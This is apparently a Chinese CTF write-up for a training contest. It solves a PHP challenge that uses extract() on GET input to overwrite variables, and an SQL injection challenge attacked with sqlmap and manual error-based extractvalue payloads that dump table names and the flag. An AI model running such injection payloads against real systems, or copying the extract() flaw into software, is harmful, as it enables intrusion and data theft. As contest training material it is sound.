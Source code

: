 ```yaml
---
title: NICO冬令营第一次比赛
description: 
published: true
date: 2022-07-17T15:48:12.336Z
tags: 
editor: markdown
dateCreated: 2022-07-17T15:34:33.925Z
---
```


# Web
## web1

```php
<?php
	//author: Elaine
	include('./flag.php');
	highlight_file(__FILE__);
	$admin = 'false';
	$guest = 'true';
	extract($_GET); # 读取传入数据的变量
	if (md5($admin) == md5($guest)) {
	    echo $FLAG;
	} else{
	    echo "nonono!";
	}
?>
```

这题相对简单，因为`extract`函数可以覆盖原有变量的数据，所以选择`$admin`和`$guest`两个变量其中一个的值覆写一下，让判断为真就可以了：
![72782a9b-6e65-42e0-8340-9e482108919a.png](/72782a9b-6e65-42e0-8340-9e482108919a.png)

## SQL

通过抓包，可以发现请求是通过POST传输的，那么先祭出`sqlmap`测试一下
![21cd3092-9893-473b-9773-11b351f7cbc2.png](/21cd3092-9893-473b-9773-11b351f7cbc2.png)
```bash
sqlmap --random-agent --risk=3 --drop-set-cookie -u http://121.37.5.94:8305/ --form
```
![a7838e45-0b48-44fd-98ed-f27b18bdaa3d.png](/a7838e45-0b48-44fd-98ed-f27b18bdaa3d.png)
可以看出`sqlmap`检测出了可注入，那么测试一下自动注入：
```
sqlmap --random-agent --risk=3 --drop-set-cookie -u http://121.37.5.94:8305/ --form --dbs
```
![a96b26f0-9e51-4262-87a8-35e21ccbe8a1.png](/a96b26f0-9e51-4262-87a8-35e21ccbe8a1.png)
可以看出注入点存在，但是`sqlmap`无法实现自动注入，那么尝试手注：
```bash
tt=1'and extractvalue(1,concat(1,(select user()))) %23
```
![4fe89ac1-38b9-45a2-99a6-119af6a6ffd4.png](/4fe89ac1-38b9-45a2-99a6-119af6a6ffd4.png)
```bash
tt=1'and extractvalue(1,concat(1,(select database()))) %23
```
![aa7d0f2b-a3c2-4aeb-ae30-5da582a10f82.png](/aa7d0f2b-a3c2-4aeb-ae30-5da582a10f82.png)
由此已经得到了一个数据库：`error_sql`，接下来爆出库内的表名：
```bash
tt=1'and extractvalue(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema='error_sql'))) %23
```
![26b87fba-05b5-44af-a36f-d3c385e54071.png](/26b87fba-05b5-44af-a36f-d3c385e54071.png)
那么已经知道库内有两个表：`data`,`flag_here`，接着爆`flag_here`:
```bash
tt=1'and extractvalue(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_name='flag_here'))) %23
```
![9e3f4944-6087-440e-861b-3fba5bcb8764.png](/9e3f4944-6087-440e-861b-3fba5bcb8764.png)
那么只需爆出`data`的数据就好了：
```bash
tt=1'and extractvalue(1,concat(1,(select group_concat(data) from flag_here))) %23
```
![fc1e1d36-f509-4fe8-9896-229ff6e27f74.png](/fc1e1d36-f509-4fe8-9896-229ff6e27f74.png)
但是比较糟糕，报错信息限制了数据的显示，那么采取分段显示：
```bash
tt=1'and extractvalue(1,concat(1,(select mid(group_concat(data),1,16) from flag_here))) %23
```
![1f670c79-c78e-4070-9983-5ab7c428c742.png](/1f670c79-c78e-4070-9983-5ab7c428c742.png)
```bash
tt=1'and extractvalue(1,concat(1,(select mid(group_concat(data),17,21) from flag_here))) %23
```
![c98b3706-c579-4cc8-a066-cf9adc7ec3a1.png](/c98b3706-c579-4cc8-a066-cf9adc7ec3a1.png)
得到了flag：
```text
NICO{eRr0r_inJect10n_1s_in7er35tin9!}
```